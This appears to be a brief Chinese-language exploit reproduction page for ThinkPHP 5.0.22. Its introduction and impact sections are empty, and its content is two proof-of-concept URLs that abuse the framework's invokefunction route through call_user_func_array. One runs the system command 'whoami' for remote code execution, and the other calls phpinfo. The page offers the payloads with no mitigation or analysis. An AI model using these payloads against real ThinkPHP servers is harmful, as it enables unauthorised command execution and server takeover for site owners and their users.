 Thinkphp 5.0.22
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1、poc

    http://0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

### 2、poc

    http://0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=
